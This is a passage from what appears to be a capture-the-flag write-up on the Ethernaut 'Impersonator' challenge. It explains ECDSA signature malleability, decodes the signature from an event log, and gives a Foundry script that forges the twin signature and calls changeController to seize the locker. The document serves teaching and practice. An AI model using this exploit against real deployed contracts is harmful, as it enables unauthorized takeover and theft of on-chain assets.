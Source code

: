 So, for each of the signature (v, r, s), we have a twin *impersonator*: (v', r, s') that lies in the different half of the elliptic curve. This is called *Signature Malleability*.

### Attack

We can take advantage of this feature and answer the question raised above: how can we change the controller? It turns out that  we can use the *impersonator* (v', r, s') to call `changeController`, since both (v, r, s) and (v', r, s') can be recovered to the *same* public key of the original signer, we can easily satisfy all two conditions mentioned earlier in the writeup. 

In order to calculate the (v', r, s'), we have to first fetch (v, r, s). We cannot use the trick `await web3.eth.getStorageAt()` since `Impersonator` is an `Ownable` and has storage protection. An easy way is to check the emitted event log on **Etherscan**. If you search the instance address and go to the event log, you will see something like this:

```
NewLock (index_topic_1 address lockAddress, uint256 lockId, uint256 timestamp, bytes signature)

[topic0] 0xac736e29adaa5052dee435c56ab8fe44ca41d6e5337e6b528e771ac85e97b7c3  
[topic1] 0x00000000000000000000000003fe6ac034d9b19c2286dc4717462e679d69f7062  

Hex →  
0000000000000000000000000000000000000000000000000000000000000539  
0000000000000000000000000000000000000000000000000000000068ff0ac  
0000000000000000000000000000000000000000000000000000000000000060  
1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91  
78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2  
000000000000000000000000000000000000000000000000000000000000001b

```

This is the emitted `Newlock` event. [topic0] is the selector of the event itself, and [topic1] stores the indexed `lockAddress`. Next two bytes32s are the `uint256 lockId` and the `uint256 timestamp`. Next five slots are for the `bytes signature`. The first 0x60 is the offset, which indicates that actual data starts at the fourth 32-byte slot. The second 0x60 is the length of the data, which takes 3 full 32-byte slots. The last 3 slots are corresponding r, s, and v.

So all we need is here. We can write the attack logic now:

`Impersonator.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import {Script} from "forge-std/Script.sol";
import {Impersonator, ECLocker} from "../src/Impersonator.sol";

contract ImpersonatorScript is Script {
    Impersonator impersonator = Impersonator(0xXXXXXXXXX);
    ECLocker locker = impersonator.lockers(0);
    bytes32 constant N = 0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141;

    function run() external {
        vm.startBroadcast();
        uint8 v = 0x1b;
        bytes32 r = 0x1932cb842d3e27f54f79f7be0289437381ba2410fdefbae36850bee9c41e3b91;
        bytes32 s = 0x78489c64a0db16c40ef986beccc8f069ad5041e5b992d76fe76bba057d9abff2;

        uint8 new_v = (v == 27 ? 28 : 27);
        bytes32 new_s = bytes32(uint256(N) - uint256(s));

        locker.changeController(new_v, r, new_s, address(0));

        vm.stopBroadcast();
    }
}
```